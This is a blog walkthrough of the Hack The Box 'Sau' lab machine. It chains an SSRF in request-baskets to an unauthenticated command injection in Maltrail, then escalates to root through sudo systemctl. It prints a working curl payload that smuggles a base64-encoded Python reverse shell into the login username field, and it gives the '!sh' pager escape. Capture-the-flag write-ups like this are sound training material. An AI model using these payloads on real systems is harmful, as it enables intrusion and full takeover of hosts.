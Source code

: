 ```yaml
---
title: "Hack The Box Machine - Sau"
description: "Walkthrough of the Sau machine from Hack The Box - an easy Linux box involving SSRF exploitation, Maltrail vulnerability, and privilege escalation"
createdAt: 2023-07-29
image: "../assets/sau.png"
tags:
  - hackthebox
  - easy
  - cybersecurity
draft: false
---
```


### Easy Box


| Name | Sau|
| :------ |:--- |
| OS | Linux |
| RELEASE DATE | July 8, 2023 |
| DIFFICULTY | <span style="color:green">Easy</span> | 1



## Port Scan
I actually wanted to test Naabu as my scanner of choice to be able to enumerate the host. I just Naabu to scan all of the ports and Naabu has a feature to then pump the ports to nmap. This was my command and output.

```sh
solidshadw@solidManjaro  ~/Downloads   
$ sudo naabu -p - -host 10.10.11.224 -nmap-cli 'nmap -sV -oX nmap-outpu  
t'
  
                 __  
 ___  ___  ___ _/ /  __ __  
/ _ \/ _ \/ _ \/ _ \/ // /  
/_//_/\_,_/\_,_/_.__/\_,_/  
  
               projectdiscovery.io  
  
[INF] Current naabu version 2.1.6 (latest)  
[INF] Running host discovery scan  
[INF] Running SYN scan with CAP_NET_RAW privileges  
[INF] Found 2 ports on host 10.10.11.224 (10.10.11.224)  
10.10.11.224:55555  
10.10.11.224:22  
[INF] Running nmap command: nmap -sV -oX nmap-output -p 22,55555 10.10.  
11.224  
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-29 14:30 MDT  
Nmap scan report for 10.10.11.224  
Host is up (0.069s latency).  
  
PORT      STATE SERVICE VERSION  
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux;  
protocol 2.0)  
55555/tcp open  unknown  
1 service unrecognized despite returning data. If you know the service/  
version, please submit the following fingerprint at https://nmap.org/cg  
i-bin/submit.cgi?new-service :  
SF-Port55555-TCP:V=7.94%I=7%D=7/29%Time=64C576E7%P=x86_64-pc-linux-gnu%  
r(G  
SF:etRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/htm  
l;\  
SF:x20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Sat,\x2029\x20Jul\  
x20  
SF:2023\x2020:30:31\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20href=\  
"/w  
SF:eb\">Found</a>\.\n\n")%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x2  
0Re  
SF:quest\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection  
:\x  
SF:20close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,60,"HTTP/1\.0\x  
202  
SF:00\x20OK\r\nAllow:\x20GET,\x20OPTIONS\r\nDate:\x20Sat,\x2029\x20Jul\  
x20  
SF:2023\x2020:30:31\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequ  
est  
SF:,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/pla  
in;  
SF:\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Reque  
st"  
SF:)%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20  
tex  
SF:t/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\  
x20  
SF:Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n  
Con  
SF:tent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r  
\n\  
SF:r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1\.1\x204  
00\  
SF:x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r  
\nC  
SF:onnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSessionReq,6  
7,"  
SF:HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x  
20c  
SF:harset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%  
r(K  
SF:erberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t  
ext  
SF:/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x  
20R  
SF:equest")%r(FourOhFourRequest,EA,"HTTP/1\.0\x20400\x20Bad\x20Request\  
r\n  
SF:Content-Type:\x20text/plain;\x20charset=utf-8\r\nX-Content-Type-Opti  
ons  
SF::\x20nosniff\r\nDate:\x20Sat,\x2029\x20Jul\x202023\x2020:30:58\x20GM  
T\r  
SF:\nContent-Length:\x2075\r\n\r\ninvalid\x20basket\x20name;\x20the\x20  
nam  
SF:e\x20does\x20not\x20match\x20pattern:\x20\^\[\\w\\d\\-_\\\.\]{1,250}  
\$\  
SF:n")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Ty  
pe:  
SF:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\  
x20  
SF:Bad\x20Request")%r(LDAPSearchReq,67,"HTTP/1\.1\x20400\x20Bad\x20Requ  
est  
SF:\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20  
clo  
SF:se\r\n\r\n400\x20Bad\x20Request");  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  
  
Service detection performed. Please report any incorrect results at htt  
ps://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 89.64 seconds
```

Looks like we found 2 ports opened. Port 22 and Port 55555. 

## Port 55555
Looks like this port is running a web interface

![image](../assets/20230729160044.png)

As I inspect the app. Looks like you can create a webhook like in which it collects and inspects the data sent over. 

We can send requests to the basket that I created `http://10.10.11.224:55555/web/gfr64fy`. 

![image1](../assets/20230729160639.png)

On the main page, I saw a version number `Version: 1.2.1`. Which I proceeded to look any potential vulnerabilities and bingo. https://github.com/advisories/GHSA-58g2-vgpg-335q, 
Looks like it is vulnerable to SSRF. As I continue to dig into this vulnerability, seems that it is exploiting the `/api/baskets/{name}`. That means that every time we visit that site, that api path gets called and triggered. 

Exploring that app a bit more, I found that you can forward URLs. 

![image2](../assets/20230729161754.png)

I stumbled upon this [article](https://notes.sjtu.edu.cn/s/MUUhEymt7)  that was explaining the SSRF vulnerability and they used this feature of forward URL to exploit the SSRF to find any other webservers not exposed to internet. They found more resources on the localhost that where to not available on our initial scan. So, I tried on port 80 and boom we got another webserver. 

![iamge3](../assets/20230729162117.png)

![image4](../assets/20230729162133.png)

It looks like it is a Maltrail from the description at the bottom. It also exposes a version `v0.53`. A quick google search, you can find that version is vulnerable to an Unauthenticated RCE(the best kind) https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/.

We will need to add the `/login` at the end because it looks that is where that RCE happens. So, in the end our config will look something like this:

![image5](../assets/20230729162522.png)

## Payload to get RevShell

I started testing the RCE by sending a curl command to my host.

![image6](../assets/20230730211002.png)

Which it was successful! So, we know that it is working. 

![image8](../assets/20230730211042.png)

I tried the basic sh revershell but I couldn't get it to work, not sure why. When digging into this RCE I found this [article](https://medium.com/pentesternepal/owasp-ktm-0x03-ctf-writeup-e467634a9661) in which they craft a python reverse shell and echo it in base64 and decode and execute with bash. This was my final payload:

```bash
$ curl 'http://10.10.11.224:55555/gfr64fy' \         
 --data 'username=;`echo cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZ  
XNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJF  
QU0pO3MuY29ubmVjdCgoIjEwLjEwLjE0LjEwIiw4MDg1KSk7b3MuZHVwMihzLmZpbGVubyg  
pLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO2ltcG  
9ydCBwdHk7IHB0eS5zcGF3bigiYmFzaCIpJw==|base64 -d|bash`'
```

After executing it, it worked!

![image9](../assets/20230729154901.png)

## Privilege Escalation Payload

Looks like we are running as the user "puma". I ran the command `sudo -l` to see if he's able to run any commands as sudo without a password.

![image10](../assets/20230729155419.png)

A quick google search on privilege escalation when running `systemctl status` landed me on this page https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-systemctl-privilege-escalation/. 

So, the final payload is divided in two parts. The first is:
```bash 
sudo systemctl status trail.service
```
And then you run:
```bash
!sh
```

And that drops you into a shell. We have made it to root. 

![image11](../assets/20230729155249.png)